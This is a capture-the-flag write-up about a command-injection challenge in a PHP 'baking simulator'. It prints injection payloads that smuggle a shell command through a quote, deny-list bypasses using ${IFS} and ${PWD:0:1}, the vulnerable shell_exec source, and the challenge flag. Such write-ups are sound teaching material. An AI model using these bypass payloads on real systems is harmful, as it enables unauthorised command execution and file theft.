 # Writeup

This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!

Our bakers have been trying to come up with a new P2P-recipe trying all sorts of weird ingredients to raise the purity, but it's so costly this way.

Luckily, the developers at Brunnerne have come up with a `bash -c 'recipe'` that can simulate the baking process. This way we can test ingredients in a simulator to find ingredients that result in a higher purity - without wasting any ressources.

## Step 1 - Inject 

After experimenting with special characters and hex encoding, it was possible to execute arbitrary commands with an input like:

```bash
%27;ls
```

## Step 2 - Understanding the Filters

Some characters and commands are blacklisted. To bypass them we can use:
- `${IFS}` to replace spaces
- `printf` instead of `echo`
- `head` instead of `cat`

Since the pipe character is also blacklisted, a working payload to print out the `index.php` file is:

```bash
%27;head${IFS}-n${IFS}1000${IFS}index.php
```
The source revealed the following filters:
```php
'<', '(', ')', '[', ']', '\\', '"', '*', '/', ' '];
$denyListCommands = ['rm', 'mv', 'cp', 'cat', 'echo', 'touch', 'chmod', 'chown', 'kill', 'ps', 'top', 'find'];

function loadSecretRecipe() {
    file_get_contents('/flag.txt');
}

function sanitizeCharacters($input) {
    for ($i = 0; $i < strlen($input); $i++) {
        if (in_array($input[$i], $GLOBALS['denyListCharacters'], true)) {
            return 'Illegal character detected!';
        }
    }
    return $input;
}

function sanitizeCommands($input) {
    foreach ($GLOBALS['denyListCommands'] as $cmd) {
        if (stripos($input, $cmd) !== false) {
            return 'Illegal command detected!';
        }
    }
    return $input;
}

function analyze($ingredient) {
    $tmp = sanitizeCharacters($ingredient);
    if ($tmp !== $ingredient) {
        return $tmp;
    }

    $tmp = sanitizeCommands($ingredient);
    if ($tmp !== $ingredient) {
        return $tmp;
    }

    return shell_exec("bash -c './quality.sh $ingredient' 2>&1");
}
```
## Step 3 - Printing the Flag

The main obstacle is the blacklist on the `/` character. Since the flag file is stored at `/flag.txt`, we need a workaround.

The trick is to extract `/` from an environment variable that always contains it. `${PWD}` starts with `/`, so we can grab its first character using substring expansion:

```bash
%27;head${IFS}-n${IFS}1000${IFS}${PWD:0:1}flag.txt
```

## Flag

```
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```
